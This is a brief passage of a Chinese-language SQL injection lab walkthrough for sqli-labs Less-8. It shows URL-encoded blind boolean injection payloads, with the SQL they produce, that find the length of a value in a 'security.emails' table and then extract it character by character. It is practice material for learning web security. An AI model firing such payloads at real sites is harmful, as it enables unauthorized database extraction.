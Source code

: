 #### 获取记录长度

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20length((select%20id%20from%20security.emails%20limit%200,1))=1%23
SQL:
SELECT * FROM users WHERE id='1' and length((select id from security.emails limit 0,1))=1#' LIMIT 0,1
;
```

#### 获取记录内容

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20ascii(substr((select%20id%20from%20security.emails%20limit%200,1),1,1))=49%23
SQL:
SELECT * FROM users WHERE id='1' and ascii(substr((select id from security.emails limit 0,1),1,1))=49#' LIMIT 0,1
;
```

